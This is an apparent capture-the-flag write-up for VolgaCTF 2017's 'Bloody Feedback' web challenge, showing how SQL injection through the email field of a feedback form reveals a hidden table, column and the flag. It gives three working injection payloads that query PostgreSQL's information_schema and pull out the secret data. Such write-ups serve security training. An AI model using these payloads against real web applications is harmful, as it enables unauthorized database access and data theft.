





# Bloody Feedback
### Web 100pts

> **Bloody Feedback**
>
> Send your feedback at [bloody-feedback.quals.2017.volgactf.ru](http://bloody-feedback.quals.2017.volgactf.ru/)    
>
> DO. NOT. USE. SQLMAP    
> Otherwise your IP will be banned    

We have given a feedback form to submit name, email and message, and the email was disabled
by default.

After playing around a while I figured out that The feedback we submit without email
is only being displayed in Top messages. So there should be something with the email. I
opened the requested in Burp and modified the email to `test@test.com'` and I got this error

After googling the error I found that the database is Postgress. So I intercepted requests and
modified it using Burp.    
`name=test&email=test@test.com',(select table_name from information_schema.tables limit 1 offset 1))-- -&message=test`    
The table name was `s3cret_tabl3`    

`name=test&email=test@test.com',(select column_name from information_schema.columns where table_name like ('s3cret_tabl3') limit 1 offset 0))-- -&message=test`    
Column name is `s3cr3tc0lumn`    
    

Combaining both,    
`name=test&email=test@test.com',(select s3cr3tc0lumn from s3cret_tabl3 limit 1 offset 4))-- -&message=test`    
And the flag was `VolgaCTF{eiU7UJhyeu@ud3*}`    
    
